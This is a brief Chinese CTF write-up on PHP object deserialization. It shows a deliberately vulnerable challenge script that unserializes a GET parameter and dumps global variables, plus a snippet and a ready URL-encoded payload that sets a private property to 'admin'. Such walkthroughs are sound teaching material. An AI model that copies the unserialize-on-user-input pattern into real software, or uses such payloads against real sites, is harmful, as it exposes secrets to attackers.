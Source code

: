 ```yaml
---
title: PHP反序列化
author: CMACCKK
date: 2021-06-05 23:04:03
tags: [CTF, PHP]
---
```

## 最简单的反序列化

```php
<?php
	require_once('flag.php');
	highlight_file(__FILE__);
	class A{
		private $user = 'test';

		function __destruct(){
			if ($this->user == 'admin') {
				var_dump($GLOBALS);
			}
		}
	}

	$data = $_GET['data'];
	unserialize($data);
```

当我们反序列化后 `user`为 `admin`时输出 `$GLOBALS`，输出当前 `php`页面全局变量

我们构造 `payload`如下

```php
<?php
    class A{
        private $user = 'admin';
    }

    echo urlencode(serialize(new A()));
```

运行获得 `url`编码 `序列化`后的值为 `O%3A1%3A%22A%22%3A1%3A%7Bs%3A7%3A%22%00A%00user%22%3Bs%3A5%3A%22admin%22%3B%7D`

将其赋值给 `data`后即可输出 `全局变量`

![image-20210605224100230](phpUnserialize/image-20210605224100230.png)
